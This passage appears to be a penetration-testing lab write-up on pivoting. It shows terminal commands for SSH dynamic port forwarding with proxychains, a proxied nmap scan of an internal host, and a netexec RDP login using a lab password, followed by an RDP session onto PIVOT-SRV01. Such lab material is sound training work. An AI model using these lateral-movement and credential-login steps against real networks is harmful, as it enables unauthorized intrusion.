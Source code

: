 #### Dynamic Port Forwarding with SSH and Proxychains

```
┌──(nabla㉿kali)-[~]
└─$ tail -5 /etc/proxychains.conf

# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 127.0.0.1 9050
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh -i id_rsa -D 9050 webadmin@10.129.229.129
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains nmap -Pn -sT -p- 172.16.5.35 -T4

[SNIP]

PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains netexec rdp 172.16.5.35 -u mlefay -p 'Plain Human work!' --local-auth

[SNIP]

RDP         172.16.5.35     3389   PIVOT-SRV01      [+] PIVOT-SRV01\mlefay:Plain Human work! (Pwn3d!)
```

#### Pivoting

```
┌──(nabla㉿kali)-[~]
└─$ proxychains xfreerdp /v:172.16.5.35 /u:mlefay /p:'Plain Human work!' /dynamic-resolution /drive:shared,~/shared +clipboard
```

```
PS C:\Users\mlefay> hostname

PIVOT-SRV01
```
